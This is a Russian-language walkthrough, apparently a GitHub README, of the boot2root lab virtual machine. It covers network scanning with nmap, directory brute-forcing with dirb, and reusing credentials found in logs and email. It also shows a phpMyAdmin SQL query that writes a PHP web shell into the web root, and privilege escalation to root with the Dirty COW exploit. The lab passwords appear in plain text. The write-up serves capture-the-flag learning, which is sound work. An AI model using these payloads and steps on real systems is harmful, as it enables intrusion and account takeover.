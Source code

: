 ## Поиск IP адреса нашей виртуальной машины на пк.

``
ifconfig - для поиска нужного IP адреса на пк. 
``

![
vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 172.16.101.1 netmask 0xffffff00 broadcast 172.16.101.255
](https://github.com/gsominsk/boot2root/blob/master/imgs/img1.png)

## Прогонка портов через nmap для получения сведений о нужном нам адресе.

``
nmap 172.16.101.1-255
``

![
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 172.16.101.128
Host is up (0.0012s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 255 IP addresses (2 hosts up) scanned in 27.37 seconds
](/img2.png)
``172.16.101.128 нужный нам IP`` 

## Проверка всех ссылок по адресу.
``git clone https://github.com/v0re/dirb.git``
### Установка dirb
```
cd dirb
./confgiure
make
```
``./dirb https://172.16.101.128/ wordlists/common.txt``
## Проверка ссылок на форуме.
После того как зашли на форум, находим ответвление 'Probleme login ?'.
Пройдясь по логам находим две строки:

### Первый ввод предположительно были перепутаны строки для логина и пароля.
![
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
](/img3.png)

### Во втором ввод логина был правильный.
![
Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user lmezard 
](/img4.png)

## Попытка войти на почту с полученным логином и паролем.
Переходим по ссылке ``https://172.16.101.128/webmail/src/login.php``
При воде пароля ``lmezard`` и пароля ``!q\]Ej?*5K5cy*AJ`` не срабатывает.
Делаем поиск ника ``lmezard`` в гугле :
![
Google info about lmezard. Laurie Mezard
](/img5.png)
Нам выдало полное имя Laurie Mezard. Пробуем разные варианты для логина.
Нужный нам вариант ``laurie@borntosec.net``.
Входим на мейл ``login: laurie@borntosec.net`` и ``password: !q\]Ej?*5K5cy*AJ``
Полазив по почте находим письмо:
![
Hey Laurie,
You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
Best regards.
](/img6.png)
Находим пароль и логин для базы данных ``login: root`` и ``password: Fg-'kKXBj87E:aJ$``
## Попытка входа в phpmyadmin.
Переходим по ссылке ``https://172.16.101.128/phpmyadmin/``
С логином и паролем входим в бд.
После поиском по сети находим експлойт для дб.
``select "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output ?>" into outfile "/var/www/forum/templates_c/pokemon.php"``
Переходим на sqltab в том же окне phpmyadmin в который мы залогинились.
Выполняем скрипт.
Скриптом создали новый темплейт по ссылке ``https://172.16.101.128/forum/templates_c/pokemon.php`` где находим ``lmezard:G!@M6f4Eatau{sF"``.

## Попытка входа по ftp.
Теперь пробуем подключиться по ftp.
``ftp 172.16.101.128``
``login: lmezard``
``password: G!@M6f4Eatau{sF"``
Вход успешен, смотрим что там находится:
![
README.md
fun
](/img7.png)
Теперь скидываем файл себе ``get fun ~/boot2root/fun``
В файле куча разной информации, если посмотреть тип файла ``file fun`` узнаем что это архив.
Разархивируем архив ``tar xvf fun``
Получаем целую папку с разными файлами. При просмотре каждого файла пузнаем что
там есть строка с номерным знаком и кусок сишного кода. 
Используем небольшой самописный скрипт который соберет все из файлов, отсортирует и потом создаст новый файл main.c .
``python unpack.py``
``gcc main.c``
``./a.out``
 После запуска получаем :
 ![
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
](/img8.png)
Шифруем его в SHA-256 и получаем :
``330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``

## Попытка входа по ssh.
``ssh laurie@172.16.101.128``
``login: laurie``
``password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``
Мы вошли по SSH на сервер.
Теперь нужно узнать что это за сервер что бы правильно нагуглить експлойт для рута.
``uname -r`` -> 3.2.0-91-generic-pae
``cat /etc/*-release`` -> DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"
С полученными данными делаем поиск в гугле и находим вот эту [ссылку](https://www.exploit-db.com/exploits/40839).
Создаем этот скрипт на сервере, мы сделали это через vim.
``touch pokemon.c``
``vim pokemon.c`` -> ``CMD + C`` -> ``CMD + V``
``gcc -pthread pokemon.c -o dirty -lcrypt && ./dirty``
Теперь задаем какой то пароль.
``si firefart``
# Вы под рутом.



